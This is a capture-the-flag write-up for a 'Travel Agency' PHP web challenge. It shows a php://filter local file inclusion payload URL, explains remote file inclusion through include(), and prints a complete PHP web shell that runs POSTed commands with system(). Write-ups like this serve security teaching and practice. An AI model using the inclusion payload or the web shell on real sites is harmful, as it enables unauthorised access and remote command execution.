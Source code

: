 ```yaml
---
description: LFI + RFI
---
```


# Travel Agency

### Description

{% code title="Challenge description.txt" overflow="wrap" %}
```
A travel agency website that lets users explore destinations from all over the world. The dev team recently added a ""preview template"" feature that dynamically loads different pages based on user selection.

Everything looks smooth on the surface, but a careless implementation might have left the site vulnerable to more than just wanderlust...

Can you dig into the source and go on a remote adventure to retrieve the flag?
```
{% endcode %}

### Homepage

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

After clicking on other page, there were no dynamic output for our input, although I noticed the page was loading using `?page` parameter, which made me think for LFI.

I pulled index.php code using base64 filter, as it was LFI and not file disclosure.\
If it were to be file disclosure, we could've pulled index.php without base64 as that way the server wouldn't have executed PHP code.

{% code overflow="wrap" %}
```html
http://13.201.125.136:54827/index.php?page=php://filter/convert.base64-encode/resource=index.php
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Here's the vulnerable logic, it's using `include` of php. \


{% embed url="https://www.php.net/manual/en/function.include.php" %}

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

If we see `Example 3` of above mannual, it tells we can use `include()` to get/load pages via `HTTP` as well.&#x20;

### RFI

```php
<html>
<body>
# SNIPPED

<h2>Execute Command</h2>
<form method="POST">
    <input type="text" name="cmd" placeholder="Input command..." autocomplete="off" required>
    <input type="submit" value="Run">
</form>

<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $cmd = $_POST["cmd"];
    echo "<h3>Output:</h3><pre>";
    system($cmd);
    echo "</pre>";
}
?>

</body>
</html>
```

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

{% code title="ls -la" overflow="wrap" %}
```bash
total 24
drwxrwxrwx 1 www-data www-data   34 Jun 27 10:07 .
drwxr-xr-x 1 root     root       18 Jun 27 10:07 ..
-rw-r--r-- 1 root     root      113 Jun 27 10:05 S3cRetP4g329658.html
-rw-r--r-- 1 root     root      800 Jun 27 07:19 flights.php
-rw-r--r-- 1 root     root      263 Jun 27 07:19 home.php
-rw-r--r-- 1 root     root      761 Jun 27 07:19 hotels.php
-rw-r--r-- 1 root     root     2059 Jun 27 07:19 index.php
-rw-r--r-- 1 root     root      572 Jun 27 07:19 tours.php
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption><p>— done — </p></figcaption></figure>

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes' still pwning.
